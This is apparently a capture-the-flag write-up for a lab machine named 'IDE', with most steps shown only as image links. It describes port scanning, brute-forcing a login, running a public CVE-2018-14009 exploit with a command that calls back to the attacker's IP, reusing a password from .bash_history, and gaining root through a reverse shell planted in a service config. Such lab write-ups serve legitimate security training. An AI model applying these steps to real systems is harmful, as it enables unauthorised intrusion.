IDE
Enumeration
nmap -sV -T4 -A 10.10.142.255

Good thing I ran -p-, or I would have missed the last port. Before checking it out, let's connect to FTP first.

That ... is not a system directory — someone thought they were being slick. Retrieving the file inside gives us a crucial note.

We have two potential users: john and drac. We can't use this yet, so let's check port 80.

Nothing to see here and the source code looks normal. Time to check the strange high port.

Brute Force
We have a login page and a username from the note — john. The note mentioned a password reset to a default, so we can brute force it.


It works. We're in.


CVE-2018-14009
Looking around the dashboard, nothing stands out. Researching this service on ExploitDB turns up a useful CVE.

I paste the exploit code into a file called exploit.py.

python3 exploit.py http://10.10.33.142:62337 john password 10.13.87.5 linux
The first IP is the target, the second is our attacking machine.


We're in.
www-data

Traversing to the home directory reveals a user called drac — a familiar name. The user flag is there but only readable by drac. Luckily, his password was left in .bash_history.

User: drac Pass: Th3dRaCULa1sR3aL
Very sloppy. Time to SSH in as drac.
SSH as Drac


Privilege Escalation
Running sudo -l shows we have permission to restart the server. Before doing that, let's check the server's configuration file.

We can insert a bash reverse shell into the config, catch it with a netcat listener, and then trigger it by restarting the server.


Now let's restart the server.


Root
